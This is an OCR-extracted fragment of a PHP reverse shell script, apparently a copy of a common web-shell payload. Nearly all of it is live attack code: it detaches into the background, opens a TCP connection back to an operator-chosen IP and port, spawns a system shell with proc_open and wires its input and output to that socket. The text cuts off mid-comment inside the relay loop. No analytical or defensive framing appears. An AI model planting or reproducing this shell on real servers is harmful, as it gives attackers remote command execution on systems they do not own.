 ```
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
```